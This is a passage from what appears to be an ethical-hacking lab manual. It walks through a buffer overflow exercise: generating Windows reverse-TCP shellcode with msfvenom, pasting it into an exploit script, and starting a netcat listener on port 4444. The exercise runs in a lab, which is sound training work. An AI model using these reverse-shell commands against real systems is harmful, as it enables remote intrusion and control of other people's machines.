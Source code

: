 ```
Note: The password that you type will not be visible.
```
145. Now, type **cd** and press **Enter** to jump to the root directory.
146. In the terminal window enter the following command and press **Enter** to generate the shellcode.

```
msfvenom -p windows/shell_reverse_tcp LHOST=[Local IP Address] LPORT=[Listening Port] EXITFUNC=thread -f c -a x86 -b
“\x00”
```
```
Note: Here, -p : payload, local IP address: 10.10.1.13 , listening port: 4444 ., -f : filetype, -a : architecture, -b : bad character.
```
147. A shellcode is generated, as shown in the screenshot.
148. Select the code, right-click on it, and click **Copy** to copy the code.

### 


149. Close the **Terminal** window.
150. Maximize the previously opened **Terminal** window. Type **pluma shellcode.py** and press **Enter**.

```
Note: Ensure that the terminal navigates to /home/attacker/Desktop/Scripts.
```
151. A **shellcode.py** file appears in the text editor window, as shown in the screenshot.

### 


152. Now, paste the shellcode copied in **Step#145** in the overflow option ( **Line 4** ); then, press **Ctrl+S** to save the file and close it.
153. Now, before running the above command, we will run the Netcat command to listen on port 4444. To do so, click the **MATE**

### Terminal icon at the top of the Desktop window to open a new Terminal window. 


154. Open a new **Terminal** window. In the terminal window, type **sudo su** and press **Enter** to run the programs as a root user.
155. In the **[sudo] password for attacker** field, type **toor** as a password and press **Enter**.

```
Note: The password that you type will not be visible.
```
156. Now, type **cd** and press **Enter** to jump to the root directory.
157. Type **nc -nvlp 4444** and press **Enter**.
158. Netcat will start listening on port **4444** , as shown in the screenshot.

### 
